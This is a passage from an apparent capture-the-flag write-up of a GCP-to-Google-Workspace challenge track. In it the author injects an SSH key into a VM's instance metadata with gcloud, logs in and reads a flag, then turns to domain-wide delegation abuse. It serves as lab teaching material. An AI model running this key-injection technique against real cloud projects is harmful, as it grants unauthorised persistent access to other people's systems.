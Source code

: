 Using the gcloud CLI, we see that a VM is running:

```console
[MacBook-Pro learn-the-alphabet]$ gcloud compute instances describe vmhackfest2025
[lots of output, including information about SSH keys]
```

I added my own SSH key to the instance metadata for the `tyrell_wellick` user:

```console
$ gcloud compute instances add-metadata vmhackfest2025 --metadata=ssh-keys="tyrell_wellick:ssh-ed25519 <my public key>"
```

And then we found the flag:

```console
[MacBook-Pro learn-the-alphabet]$ ssh tyrell_wellick@34.186.202.244
The authenticity of host '34.186.202.244 (34.186.202.244)' can't be established.
ED25519 key fingerprint is SHA256:L0P7gnFJnrFoI31AszjonCumTLznBHETA+VyUsRAz/Y.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '34.186.202.244' (ED25519) to the list of known hosts.
Linux vmhackfest2025 6.1.0-40-cloud-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.153-1 (2025-09-20) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Oct 17 14:48:51 2025 from 35.235.242.66
tyrell_wellick@vmhackfest2025:~$ ls
Flag-10.txt  hint.txt
tyrell_wellick@vmhackfest2025:~$ cat Flag-10.txt 
Flag-10

HF-565cd85c355bd15f20d5e3ea6cf0a3e0
```

🚩

## Flag 11

We have a hint on the VM:

```console
tyrell_wellick@vmhackfest2025:~$ cat hint.txt 
Time to move from GCP to Google Workspace ;)

Find a way to make the bridge !
```

From the start of the track, we knew the goal was to compromise Tyrell Wellick, the CEO's email address. I think I was googling GCP to Google Workspace delegation vulnerabilities when I discovered a tool written by the challenge designer called [Delegate](https://github.com/lutzenfried/Delegate) to perform "GCP domain-wide delegation abuse."
